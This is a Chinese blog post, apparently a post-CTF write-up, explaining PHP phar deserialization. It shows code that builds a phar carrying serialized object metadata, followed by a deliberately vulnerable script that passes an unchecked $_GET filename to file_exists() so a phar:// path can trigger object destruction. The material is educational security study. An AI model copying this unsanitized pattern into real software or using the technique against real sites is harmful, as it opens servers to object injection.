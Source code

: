 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/sn-A2DPcEygcCexL29QMEg)

前段时间纵横杯遇到一题反序列化，当时队友做出来了，赛后尝试复现一下，并总结反序列化内容。

phar 的本质是一种压缩文件，会以序列化的形式存储用户自定义的 meta-data。

### Phar 文件结构

*   stub：phar 文件标识，以 `__HALT_COMPILER();?>`结尾
    
*   manifest：压缩文件的属性等信息，以序列化的形式存储自定义的 meta-data
    
*   contents：压缩文件的内容
    
*   signature：签名，在文件末尾
    

测试
==

首先将`php.ini`中的`phar.readonly`置为 Off，否则无法生成 phar 文件，而且这个参数是无法通过 ini_set() 进行修改的。

### 生成 phar 文件

```
<?php
   class TestObject {
  }

   @unlink("phar.phar");
   $phar = new Phar("phar.phar"); //后缀名必须为phar
   $phar->startBuffering();
   $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
   $o = new TestObject();
   $o ->data = 'th1e';
   $phar->setMetadata($o); //将自定义的meta-data存入manifest
   $phar->addFromString("test.txt", "test"); //添加要压缩的文件
   //签名自动计算
   $phar->stopBuffering();
?>
```

打开文件可以看到，以序列化储存的文件

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnRVkcSKHfdobPlHfO0hkejSIuoiaNQIH5ibNwpMLVskEdEfFjJNmucicVQhEs4jmoXpZFbywZbTkOWGw/640?wx_fmt=png)

### 构造利用代码  

```
<?php
class TestObject{
   function __destruct(){
       echo $this->data;
  }
}
$filename = $_GET['filename'];
file_exists($filename);
?>
 
```
